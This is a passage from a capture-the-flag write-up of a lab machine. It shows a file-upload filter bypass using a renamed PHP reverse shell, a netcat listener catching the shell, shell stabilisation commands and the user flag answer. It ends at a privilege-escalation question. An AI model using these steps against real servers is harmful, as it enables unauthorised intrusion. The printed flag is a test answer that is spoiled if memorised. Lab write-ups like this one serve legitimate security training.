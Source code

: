 ### Filter Bypass Attempt 3
- Change the file name to `php-reverse-shell.phtml` and upload it.

```
O arquivo foi upado com sucesso!

(In Portuguese, which translates to)
The file was successfully uploaded!
```

- Now, visit `http://10.10.202.137/uploads/php-reverse-shell.phtml`.
- The code was executed and the reverse shell was obtained as the user **www-data**.
- We'll upgrade it to a stable shell:

```bash
nc -lvnp 1234
listening on [any] 1234 ...

connect to [10.17.7.91] from (UNKNOWN) [10.10.202.137] 36914
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:51:37 up 22 min,  0 users,  load average: 0.00, 0.26, 1.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ ^Z
[1]+  Stopped                 nc -lvnp 1234

root@kali:~# stty raw -echo; fg
nc -lvnp 1234

www-data@rootme:/$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### user.txt
- **Answer:** THM{y0u_g0t_a_sh3ll}
- **Steps to Reproduce:** 

```bash
$ www-data@rootme:/$ find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt                      
THM{y0u_g0t_a_sh3ll}
```

---

## Privilege Escalation

### Search for files with SUID permission, which file is weird?
- **Answer:** /usr/bin/python
- **Steps to Reproduce:** 
